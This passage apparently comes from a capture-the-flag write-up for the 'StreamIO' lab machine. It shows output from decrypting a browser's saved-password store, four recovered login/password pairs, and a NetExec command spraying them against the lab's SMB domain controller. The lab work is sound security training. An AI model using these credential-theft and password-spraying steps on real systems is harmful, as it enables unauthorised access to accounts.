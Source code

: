 ```
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'1baafcd931194d48f8ba5775a41f'
       }
     }
   }
   OCTETSTRING b'12e56d1c8458235a4136b280bd7ef9cf'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'098560d3a6f59f76cb8aad8b3bc7c43d84799b55297a47c53d58b74f41e5967e'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'e28a1fe8bcea476e94d3a722dd96'
       }
     }
   }
   OCTETSTRING b'51ba44cdd139e4d2b25f8d94075ce3aa4a3d516c2e37be634d5e50f6d2f47266'
 }
clearText b'b3610ee6e057c4341fc76bc84cc8f7cd51abfe641a3eec9d0808080808080808'
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```

Using NetExec to validate the above credentials.
```
# more f_user f_pass 
::::::::::::::
f_user
::::::::::::::
admin
nikk37
yoshihide
JDgodd
::::::::::::::
f_pass
::::::::::::::
JDg0dd1s@d0p3cr3@t0r
n1kk1sd0p3t00:)
paddpadd@12
password@12

# netexec smb 10.10.11.158 -u f_user -p f_pass --continue-on-success
SMB         10.10.11.158    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.158    445    DC               [-] streamIO.htb\admin:JDg0dd1s@d0p3cr3@t0r STATUS_LOGON_FAILURE 
```